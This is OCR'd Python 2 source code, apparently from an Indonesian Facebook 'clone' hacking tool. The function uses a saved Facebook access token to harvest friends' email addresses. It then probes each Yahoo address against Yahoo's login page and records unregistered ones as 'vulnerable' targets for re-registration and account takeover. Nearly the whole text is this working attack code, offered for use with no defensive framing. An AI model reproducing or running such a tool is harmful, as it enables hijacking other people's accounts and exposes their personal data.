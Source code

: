 
def clone_dari_daftar_teman():
 global toket
 os.system('reset')
 try:
 toket=open('login.txt','r').read()
 except IOError:
 print"\033[1;91m[!] Token Invalid"
 os.system('rm -rf login.txt')
 time.sleep(1)
 login()
 try:
 os.mkdir('out')
 except OSError:
 pass
 os.system('clear')
 print logo
 mpsh = []
 jml = 0
 print 42*"\033[1;96m="
 jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mMengambil email \033[1;97m...')
 teman = requests.get('https://graph.facebook.com/me/friends?access_token='+toket)
 kimak = json.loads(teman.text)
 save = open('out/MailVuln.txt','w')
 jalan('\033[1;96m[\x1b[1;97m✺\x1b[1;96m] \033[1;93mStart \033[1;97m...')
 print ('\x1b[1;96m[!] \x1b[1;93mStop CTRL+z')
 print 42*"\033[1;96m="
 for w in kimak['data']:
 jml +=1
 mpsh.append(jml)
 id = w['id']
 nama = w['name']
 links = requests.get("https://graph.facebook.com/"+id+"?access_token="+toket)
 z = json.loads(links.text)
 try:
 mail = z['email']
 yahoo = re.compile(r'@.*')
 otw = yahoo.search(mail).group()
 if 'yahoo.com' in otw:
 br.open("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
 br._factory.is_html = True
 br.select_form(nr=0)
 br["username"] = mail
 klik = br.submit().read()
 jok = re.compile(r'"messages.ERROR_INVALID_USERNAME">.*')
 try:
 pek = jok.search(klik).group()
 except:
 continue
 if '"messages.ERROR_INVALID_USERNAME">' in pek:
 save.write("Nama: "+ nama +"ID :" + id +"Email: "+ mail + '\n')
 print("\033[1;96m[\033[1;92mVULN✓\033[1;96m] \033[1;92m" +mail+" \033[1;96m=>\x1b[1;97m"+nama)
 berhasil.append(mail)
 except KeyError:
 pass
 print 42*"\033[1;96m="
 print '\033[1;96m[\033[1;97m✓\033[1;96m] \033[1;92mSelesai \033[1;97m....'
 print"\033[1;96m[+] \033[1;92mTotal \033[1;91m: \033[1;97m"+str(len(berhasil))
 print"\033[1;96m[+] \033[1;92mFile tersimpan \033[1;91m:\033[1;97m out/MailVuln.txt"
 save.close()
 raw_input("\n\033[1;96m[\033[1;97mKembali\033[1;96m]")
 menu()
